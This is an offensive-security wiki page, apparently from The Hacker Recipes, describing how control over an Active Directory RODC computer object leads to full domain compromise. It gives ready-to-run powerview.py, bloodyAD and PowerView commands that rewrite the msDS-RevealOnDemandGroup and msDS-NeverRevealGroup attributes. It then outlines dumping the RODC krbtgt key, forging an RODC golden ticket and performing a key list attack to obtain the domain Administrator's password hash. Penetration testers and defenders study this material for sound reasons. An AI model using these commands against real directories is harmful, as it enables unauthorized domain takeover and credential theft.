 ```yaml
---
authors: BlWasp, CravateRouge, ShutdownRepo
category: ad
---
```


# Rights on RODC object

With administrative control over the [RODC](../builtins/rodc.md) computer object in the Active Directory, there is a path to fully compromise the domain. It is possible to modify the RODC’s `msDS-NeverRevealGroup` and `msDS-RevealOnDemandGroup` attributes to allow a Domain Admin to authenticate and dump his credentials via administrative access over the RODC host.

> [!TIP]
> For more granularity, one of these ACEs against the RODC object is initially sufficient, since they will implicitly allow `WriteProperty` against the `msDS-RevealOnDemandGroup` and `msDS-NeverRevealGroup` attributes:
> 
> * `GenericWrite`
> * `GenericAll` / `FullControl`
> * `WriteDacl` (the attacker can modify the DACL and obtain arbitrary permissions)
> * `Owns` (c.f. `WriteDacl`)
> * `WriteOwner` (i.e. the attacker can obtain `Owns` -> `WriteDacl` -> other permissions)
> * `WriteProperty` against the `msDS-RevealOnDemandGroup`attribute in conjunction with another primitive to gain privileged access to the host. `WriteProperty` against the `msDS-NeverRevealGroup` attribute may be required if it includes the target account.

::: tabs

=== UNIX-like

From UNIX-like systems, this [PowerView python package](https://github.com/aniqfakhrul/powerview.py) (Python) can be used to modify the LDAP attribute.


```bash
powerview "$DOMAIN"/"$USER":"$PASSWORD"@"RODC_FQDN"
```
```powershell
#First, add a domain admin account to the msDS-RevealOnDemandGroup attribute
#Then, append the Allowed RODC Password Replication Group group
Set-DomainObject -Identity RODC-server$ -Set msDS-RevealOnDemandGroup='CN=Administrator,CN=Users,DC=domain,DC=local'
Set-DomainObject -Identity RODC-server$ -Append msDS-RevealOnDemandGroup='CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local'

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
Set-DomainObject -Identity RODC-server$ -Clear msDS-NeverRevealGroup
```


Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
# Get original msDS-RevealOnDemandGroup values 
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" get object 'RODC-server$' --attr msDS-RevealOnDemandGroup
distinguishedName: CN=RODC,CN=Computers,DC=domain,DC=local
msDS-RevealOnDemandGroup: CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local

# Add the previous value plus the admin account
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object 'RODC-server$' --attr msDS-RevealOnDemandGroup -v 'CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local' -v 'CN=Administrator,CN=Users,DC=domain,DC=local'

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object 'RODC-server$' --attr msDS-NeverRevealGroup
```

Then, dump the `krbtgt_XXXXX` key on the RODC server with admin access on the host (this can be done by modifying the `managedBy` attribute for example), and use it to forge a [RODC golden ticket](../kerberos/forged-tickets/rodc-golden-tickets.md) and conduct a [key list attack](../credentials/dumping/kerberos-key-list.md) to retrieve the domain Administrator's password hash.


=== Windows

From Windows systems, [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) (PowerShell) can be used for this purpose.

```powershell
#First, add a domain admin account to the msDS-RevealOnDemandGroup attribute
Set-DomainObject -Identity RODC-Server$ -Set @{'msDS-RevealOnDemandGroup'=@('CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local', 'CN=Administrator,CN=Users,DC=domain,DC=local')}

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
Set-DomainObject -Identity RODC-Server$ -Clear 'msDS-NeverRevealGroup'
```

Then, dump the `krbtgt_XXXXX` key on the RODC server with admin access on the host (this can be done by modifying the `managedBy` attribute for example), and use it to forge a [RODC golden ticket](../kerberos/forged-tickets/rodc-golden-tickets.md) and conduct a [key list attack](../credentials/dumping/kerberos-key-list.md) to retrieve the domain Administrator's password hash.


:::


## Resources

[https://posts.specterops.io/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc-ef5f1799ca06](https://posts.specterops.io/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc-ef5f1799ca06)
